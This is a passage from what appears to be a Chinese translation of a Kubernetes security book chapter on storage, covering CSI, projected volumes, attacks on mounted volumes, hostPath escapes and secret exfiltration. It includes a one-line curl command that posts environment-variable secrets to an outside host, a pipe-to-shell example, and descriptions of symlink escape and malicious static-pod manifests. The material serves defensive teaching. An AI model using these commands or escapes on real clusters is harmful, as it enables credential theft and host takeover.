selfsubjectrulesreviews.authorization.k8s.io                            ✔
serviceaccounts                                   ✔      ✔      ✔     ✔
services                                          ✔      ✔      ✔     ✔
...
volumesnapshotcontents.snapshot.storage.k8s.io    ✔      ✔      ✔     ✔
volumesnapshots.snapshot.storage.k8s.io           ✔      ✔      ✔     ✔
```


rakkess 具有一些扩展选项。要检索所有操作，请使用 `rakkess --verbs create,get,list,watch,update,patch,delete,deletecollection`。

这不是一个漏洞，而是 Kubernetes 身份工作的方式。但未绑定服务账户令牌的缺乏到期是一个严重的风险。 Kubernetes API 服务器不应该对任何不直接需要它的客户端开放。这包括 pod，如果它们不与 API 通信，则应该通过网络策略进行防火墙设置。

与 API 服务器交互的操作者必须始终具有网络路由和身份（即，他们的服务账户可用于识别它们与 Kubernetes，以及可能其他系统）。这意味着它们需要特别关注，以确保其权限不会过大，并考虑系统对抗妥协的能力。

# 存储概念

在本节中，我们审查 Kubernetes 的 [存储](https://oreil.ly/0Hneb) 概念，安全最佳实践和攻击。

## 容器存储接口

[容器存储接口](https://oreil.ly/clGLR)（CSI）使用卷将 pod 和外部或虚拟存储系统集成起来。

CSI 允许许多类型的存储与 Kubernetes 集成，并包含用于公开卷中数据的大多数流行块和文件存储系统的驱动程序。这些包括来自托管服务的块和弹性存储，开源分布式文件系统如 [Ceph](https://ceph.io)，专用硬件和网络附加存储，以及一系列其他第三方驱动程序。

在这些插件的内部，“传播”挂载的卷，意味着在一个 pod 中分享它们的容器之间，甚至将容器内部的更改传播回主机。当主机的文件系统反映了容器挂载的卷时，这被称为“双向挂载传播”。

## 投射卷

Kubernetes 提供了除了标准 Linux 提供的特殊卷类型。这些用于将数据从 API 服务器或 `kubelet` 挂载到 pod 中。例如，要将容器或 pod 元数据 [投射到卷中](https://oreil.ly/flMYI)。

这里是一个简单的示例，将 Secret 对象投射到投射卷中，以便 `test-projected-volume` 容器轻松使用，并在卷上设置文件创建的权限：

```
apiVersion: v1
kind: Pod
metadata:
  name: test-projected-volume
spec:
  containers:
  - name: test-projected-volume
    image: busybox
    args:
    - sleep
    - "86400"
    volumeMounts:
    - name: all-in-one
      mountPath: "/projected-volume"
      readOnly: true
  volumes:
  - name: all-in-one
    projected:
      sources:
      - secret:
          name: user
          items:
            - key: user
              path: my-group/my-username
              mode: 511
      - secret:
          name: pass
          items:
            - key: pass
              path: my-group/my-username
              mode: 511
```

投影卷从与 pod 相同的命名空间中获取现有数据，并更容易地在容器内访问。卷类型列在表 6-1 中。

表 6-1\. Kubernetes 卷类型

| 卷类型 | 描述 |
| --- | --- |
| Secret | Kubernetes API 服务器 Secret 对象 |
| downwardAPI | 从 pod 或其节点配置（例如，元数据包括标签和注释、限制和请求、pod 和主机 IP，以及服务账户和节点名称）获取的配置元素 |
| ConfigMap | Kubernetes API 服务器 ConfigMap 对象 |
| serviceAccountToken | Kubernetes API 服务器 serviceAccountToken |

这还可用于更改服务账户 Secret 的位置，使用 `TokenRequestProjection` 功能，防止 kubectl 及其客户端自动发现服务账户令牌。例如，将文件隐藏在不同位置，这不应被视为安全边界，而是使攻击者生活更加困难的一种简单方法：

```
apiVersion: v1
kind: Pod
metadata:
  name: sa-token-test
spec:
  containers:
  - name: container-test
    image: busybox
    volumeMounts:
    - name: token-vol
      mountPath: "/service-account"
      readOnly: true
  volumes:
  - name: token-vol
    projected:
      sources:
      - serviceAccountToken:
          audience: api
          expirationSeconds: 3600
          path: token
```

每个挂载到 pod 中的卷对攻击者都具有兴趣。它可能包含他们想要窃取或外泄的数据，包括：

+   用户数据和密码

+   个人可识别信息

+   应用程序的秘密配方

+   对其所有者具有财务价值的任何内容

现在让我们看看如何攻击卷。

## 攻击卷

在容器中的无状态应用程序不会将数据持久化在容器内：它们从其他服务（应用程序、数据库或挂载的文件系统）接收或请求信息。控制 pod 或容器的攻击者实际上在冒充它，并可以使用挂载为 Kubernetes Secrets 的凭据从其他服务中窃取数据。

挂载在*/var/run/secrets/kubernetes.io/serviceaccount*的服务账户令牌是容器的身份：

```
bash-4.3# mount | grep secrets
tmpfs on /var/run/secrets/kubernetes.io/serviceaccount type tmpfs (ro,relatime)
```

每个部署的 pod 实例默认都挂载一个服务账户令牌，这使其成为一种相当通用的身份形式。它也可能被挂载到其他 pod 及其副本中。GCP 的工作负载身份将其称为“工作负载身份池”，可以视为一种角色。

因为攻击者在 pod 中，他们可以恶意发出平凡的网络请求，使用服务账户凭证来授权云 IAM 服务。这可以访问 SQL、热和冷存储、机器映像、备份和其他云存储系统。

运行容器网络进程的用户应具备最低特权权限。容器的攻击面（通常是其网络接口）存在漏洞，使攻击者仅能控制该进程的初始控制。

在容器内部升级权限可能涉及对敌人的难以捉摸的攻击和戏耍，对攻击者如同 Dread Pirate Hashjack 等人来说，这是另一个安全麻烦。如果他们坚持不懈，他们将无法进一步渗透，并且可能需要在网络中停留更长的时间，增加被检测到的可能性。

在这个示例中，Pod 在 */cache* 处有一个挂载的卷，它受到像所有其他 Linux 文件一样的自主访问控制（DAC）保护。

###### 警告

在挂载文件系统中上下文外符号链接解析是数据外泄的常见途径，如在这个 [Hackerone 漏洞悬赏](https://oreil.ly/USepT) 中展示的 `kubelet` 以 root 身份从 */logs* 服务器端点中的 */var/log* 跟随符号链接。

`hostMount` 的实际应用：

```
# df
Filesystem           1K-blocks      Used Available Use% Mounted on
overlay               98868448   5276296  93575768   5% /
tmpfs                    65536         0     65536   0% /dev
tmpfs                  7373144         0   7373144   0% /sys/fs/cgroup
/dev/sda1             98868448   5276296  93575768   5% /cache
```

挂载在卷上的文件系统：

```
# ls -lap /cache/
total 16
drwxrwxrwx    4 root     root          4096 Feb 25 21:48 ./
drwxr-xr-x    1 root     root          4096 Feb 25 21:46 ../
drwxrwxrwx    2 app-user app-user      4096 Feb 25 21:48 .tmp/
drwxr-xr-x    2 root     root          4096 Feb 25 21:47 hft/
```

在这里，拥有容器主进程的应用用户可以将临时文件（如处理工件）写入挂载点，但只能读取 *hft/* 目录中的数据。如果受损用户可以写入 *hft/* 目录，他们可以为卷的其他用户植入缓存毒药。如果容器正在执行来自该分区的文件，共享卷上的后门允许攻击者在执行它的所有卷用户之间移动。

在这种情况下，根用户拥有 *hft/*，因此攻击者必须进一步工作才能在容器内部成为 root，所以这种攻击是不可能的。

###### 注意

容器通常只执行其镜像中捆绑的应用程序，以支持确定性和容器镜像扫描的原则。执行不受信任或未知代码，例如 `curl x.cp | bash` 是不明智的。类似地，应在执行之前验证来自挂载卷或远程位置的二进制文件的校验和。

数据的安全性依赖于文件系统权限。如果容器维护者没有正确设置文件系统或用户，可能会有一种方式让攻击者访问它。`setuid` 二进制文件是提升特权的传统途径，在容器内部不应该需要它们：特权操作应该由初始化容器处理。

但是，如果攻击者无法通过挂载卷访问目标 Pod，他们可能会使用窃取的服务账号凭据将卷挂载到恶意 Pod 上。在这种情况下，攻击者有权限部署到一个命名空间，因此准入控制器是防止凭据被窃取的最后防线。防止使用 root 权限的 Pod 可以帮助维护共享卷、Pod 内或从主机或网络挂载的进程和设备的安全性。

Pod 中的 root 访问是麻烦的入口。通过在 Dockerfile 中降级为非特权用户，可以防止许多攻击。

根用户是全知的，流氓的生存理由。

## [主机挂载的危险性](https://oreil.ly/sGJgo)

正如 2019 年 [Aqua 博客文章](https://oreil.ly/sGJgo) 所指出的：

> Kubernetes 有许多移动部件，有时将它们以某些方式组合可能会产生意想不到的安全缺陷。在本文中，您将看到一个作为 root 运行的容器，通过挂载到节点的 /var/log 目录，可以向任何有权访问其日志的用户暴露其主机文件系统的全部内容。

例如，一个 pod 可能将主机的文件系统目录挂载到容器中，例如 */var/log*。子目录的使用并不能防止容器移动到该目录之外。符号链接可以引用同一文件系统上的任何位置，因此攻击者可以使用符号链接探索他们具有写访问权限的任何文件系统。

容器安全系统将阻止这种攻击，但普通的 Kubernetes 仍然容易受到攻击。

在 [kube-pod-escape](https://oreil.ly/dwQo4) 中的漏洞展示了如何通过可写的 `hostPath` 挂载点（位于 */var/log*）逃逸到主机。具有对主机的写访问权限的攻击者可以通过向 */etc/kubernetes/manifests/* 写入恶意清单来使 `kubelet` 创建新的 pod。

## 其他秘密和从数据存储中导出

Pod 还注入了其他形式的标识，包括 SSH 和 GPG 密钥、Kerberos 和 Vault 令牌、临时凭证以及其他敏感信息。这些由 `kubelet` 暴露到 pod 中作为文件系统挂载或环境变量。

环境变量是继承的，并对由同一用户拥有的其他进程可见。`env` 命令可以轻松地将它们导出，并且攻击者可以轻松地导出它们：`curl -d "$(env)" https://hookb.in/swag`。

虽然已挂载的文件仍然可以相对容易地导出，但通过文件系统权限，这些文件被读取的难度会稍微增加。在一个必须读取其所有本身秘密的单一非特权用户的情况下，这可能不太相关，但在一个 pod 中容器之间共享卷的情况下，这就变得重要了。

准入控制策略（参见 “运行时策略”）可以完全阻止主机挂载，或者强制只读挂载路径。

我们将在 第七章 中更详细地讨论这个主题。

# 结论

卷宗保存数字企业最宝贵的资产：数据。它可以索取丰厚的赎金。通过使用强化的构建和部署模式，阻止哈什杰克船长使用窃取的凭证访问数据。假设一切都会被妥协，使用工作负载标识来限定云集成到容器中，并为专用服务帐户分配有限的云访问权限，这会让攻击者的生活更加困难。

在静态数据（在 `etcd` 和在消耗它的 pod 的上下文中）上加密数据可以保护免受攻击者侵害，当然，面向网络并挂载有价值数据的 pod 是最高影响目标。
